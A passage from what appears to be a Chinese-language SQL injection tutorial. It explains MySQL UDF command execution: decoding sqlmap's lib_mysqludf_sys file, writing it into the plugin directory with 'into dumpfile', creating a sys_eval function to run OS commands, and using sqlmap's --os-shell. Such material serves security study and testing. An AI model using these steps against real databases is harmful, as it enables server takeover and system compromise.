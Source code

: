 -   sys\_set()，创建或修改一个环境变量
    

#### [](#1221-udf-%E5%BA%93%E6%96%87%E4%BB%B6%E8%8E%B7%E5%8F%96)12.2.1 UDF 库文件获取

[https://github.com/mysqludf/lib\_mysqludf\_sys](https://github.com/mysqludf/lib_mysqludf_sys)

sqlmap/data/udf/mysql/

sqlmap 下的文件经过编码，需要使用 sqlmap/extra/cloak 目录下的 cloak.py 文件进行解码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br># 解码文件<br>python cloak.py -d -i /path/to/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_linux.so<br>``` |

#### [](#1222-udf-%E5%BA%93%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)12.2.2 UDF 库文件写入

将 so 文件转成 16 进制，以 16 进制编码形式写入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select unhex('???') into dumpfile '/usr/lib/mysql/plugin/lib_linux.so'<br>``` |

#### [](#1223-dumpfile-vs-outfile)12.2.3 dumpfile vs. outfile

若我们想把一个可执行 2 进制文件用 into outfile 函数导出事实上导出后就会被破坏。

因为 into outfile 函数会在行末端写入新行，更致命的是会转义换行符，这样的话这个 2 进制可执行文件就会被破坏。

这时候我们用 into dumpfile 就能导出一个完整能执行的 2 进制文件 into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。

#### [](#1224-%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0)12.2.4 自定义函数

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>create function sys_eval returns string soname "lib_linux.so";<br>select sys_eval('ifconfig');<br>``` |

### [](#123-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%B7%A5%E5%85%B7)12.3 自动化工具

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>sqlmap -u "url" --os-shell<br>sqlmap -u "url" --os-cmd=ifconfig<br>``` |

## [](#13-%E6%B3%A8%E5%85%A5%E6%8A%80%E5%B7%A7)13 注入技巧

从 SQL 语法角度，从不同的注入点位置说明 SQL 注入的技巧

### [](#131-select-%E6%B3%A8%E5%85%A5)13.1 SELECT 注入
